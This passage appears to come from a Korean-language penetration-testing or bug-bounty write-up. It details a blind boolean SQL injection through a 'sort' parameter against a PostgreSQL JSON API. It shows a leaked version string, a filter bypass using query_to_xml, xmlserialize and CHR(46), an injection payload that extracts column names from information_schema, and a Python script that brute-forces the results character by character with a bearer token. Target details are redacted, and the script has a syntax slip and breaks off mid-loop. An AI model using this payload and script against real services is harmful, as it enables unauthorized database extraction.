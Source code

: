 ```
<row xmlns:xsi="<http://www.w3.org/2001/XMLSchema-instance>"><version>PostgreSQL 10.21 on x86_64-pc-linux-gnu, compiled by gcc (GCC) 4.4.7 20120313 (Red Hat 4.4.7-23), 64-bit</version> </row>
```

이렇게 첫번째 인자를 string으로 받기 때문에 `CHR`함수와 string concat(`||`)을 적절하게 활용하여 `.`을 사용할 수 있었습니다.

```
SELECT xmlserialize(document(query_to_xml('SELECT/**/'''||CHR(46)||'''/**/AS/**/x',true,true,'')) AS text);
```

이제 `information_schema.columns`에서 스키마 정보를 모조리 뽑아올 모든 준비가 완료되었습니다.

**Payload:**

```
"sort":"id=(1+(SELECT\\nCASE\\nWHEN\\n((xmlserialize(document(query_to_xml('SELECT/**/(column_name)x/**/FROM/**/information_schema'||CHR(46)||'columns/**/LIMIT/**/1/**/OFFSET/**/1',true,true,''))\\nAS\\ntext))LIKE'%<x>{}%')\\nTHEN\\n1\\nELSE\\n0\\nEND))"
```

**Exploit(Python):**

```python
import requests
import json
requests.packages.urllib3.disable_warnings(
    requests.packages.urllib3.exceptions.InsecureRequestWarning
)

url = "██████████████████████████████"
jwt = "██████████████████████████████"

headers = {
    "Host": "███████████████",
    "Accept": "application/json, text/plain, */*",
    "Content-Type": "application/json",
    "Authorization": f"Bearer {jwt}",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36",
    "Origin": "█████████████████████",
    "Accept-Encoding": "gzip, deflate",
    "Accept-Language": "en-US,en;q=0.9,ko;q=0.8,zh;q=0.7,zh-CN;q=0.6,la;q=0.5,und;q=0.4,lb;q=0.3,vi;q=0.2",
    "Connection": "close"
}
data = {
    "parameters": [{
        "status":0,
        "page":1,
        "sort":":INJECT POINT:",
        "order":"desc"
        "id":1
    }],
}
payload = "id=(1+(SELECT CASE WHEN ((xmlserialize(document(query_to_xml('SELECT/**/(column_name)x/**/FROM/**/information_schema'||CHR(46)||'columns/**/LIMIT/**/1/**/OFFSET/**/1',true,true,'')) AS text))LIKE'%<x>{}%') THEN 1 ELSE 0 END))".replace(' ', '\\n')
result = ""

for i in range(100):
    for s in '123456789abcdefghijklmnopqrstuvwxyz:_':
        data['parameters'][0]['sort'] = payload.format(result + s)
        json_data = json.dumps(data)
        response = json.loads(requests.post(url, headers=headers, data=json_data, verify=False).text)

```